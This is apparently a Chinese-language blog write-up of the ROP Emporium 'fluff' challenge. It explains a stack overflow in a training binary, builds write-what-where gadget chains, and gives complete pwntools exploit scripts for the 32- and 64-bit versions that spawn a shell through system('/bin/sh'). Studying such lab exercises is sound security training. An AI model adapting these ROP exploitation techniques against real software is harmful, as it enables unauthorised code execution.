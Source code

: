 ```yaml
---
title: ROP Emporium の fluff
date: 2020-06-10 09:35:57
categories:
- WriteUPs
- ROP Emporium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练5：fluff的解析。

<!-- more -->

## fluff32

### Step 1

程序正常运行截图：

![](/img/fluff/fluff1.png)

checksec：

![](/img/fluff/fluff2.png)

### Step 2

依然是pwnme中fgets函数存在溢出：

![](/img/fluff/fluff3.png)

虽然程序中有system函数，但是没有可利用的字符串：

![](/img/fluff/fluff4.png)

所以需要向内存中写入需要的字符串，再找一下可以实现目标的指令段：

![](/img/fluff/fluff5.png)

也没有可以利用的指令段，似乎陷入死局？

### Step 3

其实还是有一条路可以走的，在[XMAN level3 の Write-Up](https://coldwave96.github.io/2020/05/20/XMAN-level3/)中我们通过泄露writes函数在got表上的地址得到libc的基地址，然后通过libc中的字符串getshell。这里我们依然可以使用ret2libc技术，泄露puts函数在got表上的地址，获取libc的基地址，然后用这个基地址加上’/bin/sh’在libc中的offset，调用system函数getshell。

但是根据题目的叙述，似乎是在让我们尝试强行写入需要的字符串，那我们只能回到程序，再仔细的找找可用的gadget了。

不妨逆向思维倒推一下，我们需要写内存的操作，那么肯定要mov [reg]，reg；ret的结构：

![](/img/fluff/fluff6.png)

这个函数是可以实现，首先考虑控制写入的地址，那么往前推我们需要控制ecx寄存器，给ecx赋值：

![](/img/fluff/fluff7.png)

xchg指令是交换两个寄存器的值，那么从上面的函数中截取部分是可以实现给ecx赋值的，但是我们就要改为控制edx寄存器：

![](/img/fluff/fluff8.png)

* 这段指令会将edx和ebx异或的值放入edx。所以我们需要pop edx；xor ebx，ebx；或者pop ebx；xor edx，edx；（A异或0仍为A）

![](/img/fluff/fluff9.png)

所以还需要pop ebx；ret：

![](/img/fluff/fluff10.png)

完美，前半部分控制内存地址的ropchain已经补充完成。下面是控制字符串的写入，也是从sub_8048692函数开始，倒推需要控制edx。

依然没有直接pop edx的指令，只能选择间接的xor edx，ebx；

和上面一样需要pop edx；xor ebx，ebx；或者pop ebx；xor edx，edx；

于是回到上面的sub_8048670函数，最后依然是pop ebx；ret；

最终实现控制写入的字符串，下面做一个草图帮助一下理解以及EXP的编写：

![](/img/fluff/fluff11.png)

### Step 4

最后就是EXP的编写：

```Python
* from pwn import *
* 
* sh = process('./fluff32')
* elf = ELF('./fluff32')
* 
* pop_ebx_addr = 0x080483e1
* xor_edx_edx_addr = 0x08048671
* xor_edx_ebx_addr = 0x0804867b
* xchg_addr = 0x08048689
* mov_addr = 0x08048693
* 
* bss_addr = 0x0804a040
* sys_addr = elf.symbols['system']
* 
* def mov_data(string, addr):
*     payload = p32(pop_ebx_addr) + p32(addr)
*     payload += p32(xor_edx_edx_addr) + p32(0xdeadbeef)
*     payload += p32(xor_edx_ebx_addr) + p32(0xdeadbeef)
*     payload += p32(xchg_addr) + p32(0xdeadbeef)
*     payload += p32(pop_ebx_addr) + string
*     payload += p32(xor_edx_edx_addr) + p32(0xdeadbeef)
*     payload += p32(xor_edx_ebx_addr) + p32(0xdeadbeef)
*     payload += p32(mov_addr) + p32(0xdeadbeef) + p32(0)
*     return payload
* 
* payload = 'a' * (0x28 + 0x4)
* payload += mov_data('/bin', bss_addr)
* payload += mov_data('/sh\x00', bss_addr + 4)
* payload += p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

EXP运行结果：

![](/img/fluff/fluff12.png)

## fluff

像32位程序一样寻找完整的ROP Chain：

![](/img/fluff/fluff13.png)

加上控制r12寄存器的指令段：

![](/img/fluff/fluff14.png)

以及调用system函数传参的时候需要控制rdi寄存器：

![](/img/fluff/fluff15.png)

万事俱备，直接给出EXP脚本：

```Python
* from pwn import *
* 
* sh = process('./fluff')
* elf = ELF('./fluff')
* 
* bss_addr = 0x601060
* sys_addr = elf.symbols['system']
* 
* mov_addr = 0x40084e
* xchg_addr = 0x400840
* xor_r11_r12_addr = 0x40082f
* xor_r11_r11_addr = 0x400822
* pop_addr = 0x4008bc
* 
* pop_rdi_addr = 0x4008c3
* 
* payload = 'a' * (0x20 + 0x8)
* payload += p64(pop_addr) + p64(bss_addr) + p64(0) + p64(0) + p64(0)
* payload += p64(xor_r11_r11_addr) + p64(0)
* payload += p64(xor_r11_r12_addr) + p64(0)
* payload += p64(xchg_addr) + p64(0)
* 
* payload += p64(pop_addr) + '/bin/sh\x00' + p64(0) + p64(0) + p64(0)
* payload += p64(xor_r11_r11_addr) + p64(0)
* payload += p64(xor_r11_r12_addr) + p64(0)
* payload += p64(mov_addr) + p64(0) + p64(0)
* 
* payload += p64(pop_rdi_addr) + p64(bss_addr)
* 
* payload += p64(sys_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

EXP运行结果：

![](/img/fluff/fluff16.png)